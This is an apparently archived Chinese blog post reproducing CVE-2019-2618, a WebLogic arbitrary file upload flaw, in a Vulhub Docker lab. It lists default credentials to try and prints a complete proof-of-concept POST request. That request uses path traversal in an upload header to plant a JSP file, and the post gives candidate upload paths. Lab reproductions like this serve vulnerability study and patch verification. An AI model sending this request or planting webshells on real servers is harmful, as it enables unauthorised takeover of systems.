

# WebLogic 任意文件上传漏洞(CVE-2019-2618) - Zhengjim - 博客园

> 原文：[`www.cnblogs.com/zhengjim/p/10815150.html`](https://www.cnblogs.com/zhengjim/p/10815150.html)

# WebLogic 任意文件上传漏洞(CVE-2019-2618)

## 0x01 漏洞描述

*漏洞介绍*

CVE-2019-2618 漏洞主要是利用了 WebLogic 组件中的 DeploymentService 接口，该接口支持向服务器上传任意文件。攻击者突破了 OAM（Oracle Access Management）认证，设置 wl_request_type 参数为 app_upload，构造文件上传格式的 POST 请求包，上传 jsp 木马文件，进而可以获得整个服务器的权限。

*影响版本*

WebLogic 10.3.6.0、12.1.3.0、12.2.1.3

## 0x01 搭建漏洞环境

利用[Vulhub](https://github.com/vulhub/vulhub)里的`weblogic/CVE-2017-10271`的 weblogic 版本作为漏洞环境，启动命令为：

```
docker-compose up -d 
```

等待一段时间，访问`http://your-ip:7001/`即可看到一个 404 页面，说明 weblogic 已成功启动。

我们可以先进入容器内部

```
[root@localhost CVE-2017-10271]# docker ps
CONTAINER ID        IMAGE               COMMAND              CREATED             STATUS              PORTS                              NAMES
dc73ec08c629        vulhub/weblogic     "startWebLogic.sh"   13 minutes ago      Up 13 minutes       5556/tcp, 0.0.0.0:7001->7001/tcp   cve-2017-10271_weblogic_1_e0c10faa85da
[root@localhost CVE-2017-10271]# docker exec -it dc73ec08c629 /bin/bash
root@dc73ec08c629:~/Oracle/Middleware# 
```

## 0x02 漏洞复现

漏洞前提是需要先获取`weblogic`的账号密码。可以爆破密码或者尝试默认账号密码(比较鸡肋)
`weblogic/weblogic`
`weblogic/Oracle@123`

POC 为：

```
POST /bea_wls_deployment_internal/DeploymentService HTTP/1.1
Host: 172.16.200.221:7001
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.21.0
username: weblogic
wl_request_type: app_upload
cache-control: no-cache
wl_upload_application_name: ../tmp/_WL_internal/bea_wls_deployment_internal/gyuitk/war
serverName: zhengjim
password: Oracle@123
content-type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
archive: true
server_version: 10.3.6.0
wl_upload_delta: true
Content-Length: 238

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="shell.jsp"; filename="shell.jsp"
Content-Type: false

<%
        out.print("123456"); 
%>

------WebKitFormBoundary7MA4YWxkTrZu0gW-- 
```

发送数据包 ，返回了上传文件的地址


去访问发现执行成功



复现成功

上传目录可以多尝试几个

```
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_deployment_internal.war
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/bea_wls_internal.war 这是上传的路径
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_internal
/root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/bea_wls_deployment_internal
bea_wls_internal 
bea_wls_deployment_internal 在同目录
这是漏洞 war 位置 
```

## 漏洞修复

Oracle 官方已经在关键补丁更新（CPU）中修复了该漏洞

## 参考文献

1.  [`github.com/jas502n/cve-2019-2618`](https://github.com/jas502n/cve-2019-2618)
2.  [`sec.sangfor.com.cn/events/229.html`](http://sec.sangfor.com.cn/events/229.html)
3.  [`www.oracle.com/technetwork/security-advisory/cpuapr2019-5072813.html`](https://www.oracle.com/technetwork/security-advisory/cpuapr2019-5072813.html)